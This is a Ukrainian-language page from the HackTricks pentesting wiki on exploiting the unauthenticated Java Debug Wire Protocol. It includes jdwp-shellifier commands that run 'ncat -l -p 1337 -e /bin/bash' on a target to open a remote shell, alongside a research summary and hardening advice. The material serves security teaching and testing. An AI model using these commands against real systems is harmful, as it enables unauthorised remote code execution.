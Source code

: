 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Отримайте перспективу хакера на ваші веб-додатки, мережу та хмару**

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ спеціальних інструментів для картографування атакуючої поверхні, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Експлуатація

Експлуатація JDWP залежить від **відсутності аутентифікації та шифрування** протоколу. Зазвичай він знаходиться на **порті 8000**, але можливі й інші порти. Початкове з'єднання здійснюється шляхом відправлення "JDWP-Handshake" на цільовий порт. Якщо служба JDWP активна, вона відповідає тим же рядком, підтверджуючи свою присутність. Цей хендшейк діє як метод відбитків для ідентифікації служб JDWP у мережі.

Щодо ідентифікації процесів, пошук рядка "jdwk" у процесах Java може вказувати на активну сесію JDWP.

Основний інструмент - [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Ви можете використовувати його з різними параметрами:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
Я виявив, що використання `--break-on 'java.lang.String.indexOf'` робить експлойт більш **стабільним**. І якщо у вас є можливість завантажити бекдор на хост і виконати його замість виконання команди, експлойт буде ще більш стабільним.

## Більше деталей

**Це резюме з [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Перевірте його для отримання додаткових деталей.

1. **Огляд JDWP**:
- Це пакетний мережевий бінарний протокол, переважно синхронний.
- Не має аутентифікації та шифрування, що робить його вразливим при відкритті до ворожих мереж.

2. **Рукостискання JDWP**:
- Використовується простий процес рукостискання для ініціації зв'язку. Обмінюється 14-символьний ASCII рядок “JDWP-Handshake” між Дебагером (клієнтом) та Дебагованим (сервером).

3. **Комунікація JDWP**:
- Повідомлення мають просту структуру з полями, такими як Довжина, Ідентифікатор, Прапор та CommandSet.
- Значення CommandSet варіюються від 0x40 до 0x80, представляючи різні дії та події.

4. **Експлуатація**:
- JDWP дозволяє завантажувати та викликати довільні класи та байт-код, що створює ризики безпеки.
- Стаття детально описує процес експлуатації в п'яти кроках, що включає отримання посилань на Java Runtime, встановлення точок зупинки та виклик методів.

5. **Експлуатація в реальному житті**:
- Незважаючи на потенційні захисти брандмауера, сервіси JDWP можна виявити та експлуатувати в реальних сценаріях, як показано в пошуках на платформах, таких як ShodanHQ та GitHub.
- Скрипт експлойту був протестований на різних версіях JDK і є незалежним від платформи, пропонуючи надійне віддалене виконання коду (RCE).

6. **Безпекові наслідки**:
- Наявність відкритих сервісів JDWP в Інтернеті підкреслює необхідність регулярних перевірок безпеки, відключення функцій налагодження в продуктивному середовищі та належної конфігурації брандмауера.

### **Посилання:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Отримайте перспективу хакера на ваші веб-додатки, мережу та хмару**

**Знайдіть і повідомте про критичні, вразливі уразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ кастомних інструментів для картографування поверхні атаки, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
